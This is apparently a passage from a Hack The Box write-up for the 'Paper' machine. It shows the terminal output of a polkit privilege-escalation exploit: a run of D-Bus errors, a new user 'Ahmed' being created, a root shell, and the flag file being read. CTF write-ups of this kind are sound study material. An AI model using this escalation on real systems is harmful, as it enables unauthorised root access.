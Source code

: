 ```bash
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.
Accounts.User' on object at path /org/freedesktop/Accounts/User1005
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
...

Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
[+] Timed out at: 0.007874564154874596
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (106737): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper tmp]# id
uid=0(root) gid=0(root) groups=0(root)
```

Now I am ahmed and I can root! look at me go!

```bash
[root@paper tmp]# cd /root
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt
polkit_flag_from_prisonmike
[root@paper ~]#
```
Damn! those "easy" rooms on hackthebox make me feel more stupid than usual
